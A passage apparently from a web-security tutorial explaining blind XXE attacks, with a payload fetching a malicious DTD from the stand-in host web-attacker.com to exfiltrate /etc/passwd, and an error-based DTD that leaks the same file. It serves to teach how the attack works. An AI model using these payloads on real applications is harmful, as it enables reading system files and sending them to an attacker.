 This DTD carries out the following steps: 

* Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
* Uses the eval `entity`, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
* Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL. 

The attack must then host the malicious DTD on a system that they control, normally by loading it onto their own webserver. For example, the attacker might serve the malicious DTD at the following URL: 

`http://web-attacker.com/malicious.dtd` 

Finally, the attacker must submit the following XXE payload to the vulnerable application: 

`<!DOCTYPE foo [<!ENTITY % xxe SYSTEM http://web-attacker.com/malicious.dtd> %xxe;]>` 

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause the XML parser to fetch the external DTD from the attaker's server and interpret it inline. The steps defined within the malicious DTD are then executed, and the `/etc/passwd` file is transmitted to the attackers server. 

An alternative approach to exploiting blind XXE is to trigger an XML parsing error where the error message contains the sensitive data that you wish to retrieve. This will be effective if the application returns the resulting error message within its response. 

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows: 

``` 
<!ENTITY % file SYSTEM file:///etc/passwd> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file://nonexistent/%file;'>"> 
%eval; 
%error; 
``` 

This DTD carries out the following steps: 

* Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
* Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
* Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
* Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file. 

This technique won't normally work with an internal DTD that is fully specified within the `DOCTYPE` element. This is because the technique involves using an XML parameter entity within the definition of another parameter entity. Per the XML specification, this is permitted in external DTDs but not in internal DTDs.  
